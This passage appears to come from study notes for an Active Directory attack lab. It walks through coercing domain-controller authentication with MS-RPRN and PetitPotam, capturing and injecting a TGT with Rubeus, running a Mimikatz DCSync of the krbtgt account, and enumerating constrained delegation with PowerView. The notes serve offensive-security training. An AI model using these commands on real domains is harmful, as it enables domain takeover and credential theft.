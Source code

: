 ~~~
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
~~~

If you are attacking from a Linux machine, check out **Coercer**:

`https://github.com/p0dalirius/Coercer`

We can also use **PetitPotam**.exe:

`https://github.com/topotam/PetitPotam`

~~~
.\PetitPotam.exe us-web us-dc
~~~

On us-web:

~~~
.\Rubeus.exe monitor /interval:5
~~~

 PetitPotam uses **EfsRpcOpenFileRaw** function of **MS-EFSRPC** (Encrypting File System Remote Protocol) protocol and doesn’t need credentials when used against a DC.

Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM:

~~~
Rubeus.exe ptt /ticket:
~~~

Once the ticket is injected, run DCSync:

~~~
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
~~~


#### Contrained Delegation

Constrained Delegation when enabled on a service account, allows access only to specified services on specified computers as a user.

- A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user’s authorization.
- To impersonate the user, Service for User (S4U) extension is used which provides two extensions:

**SeEnableDelegation privileges** are needed to configure Constrained Delegation.

Two ways to configure constrained delegation:

Kerberos only: Kerberos authentication is needed for the service to delegate.
Protocol transition: Regardless of authentication the service can delegate.

#### Discover Constrained Delegation

Enumerate users and computers with constrained delegation enabled

Using PowerView:

~~~
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
~~~
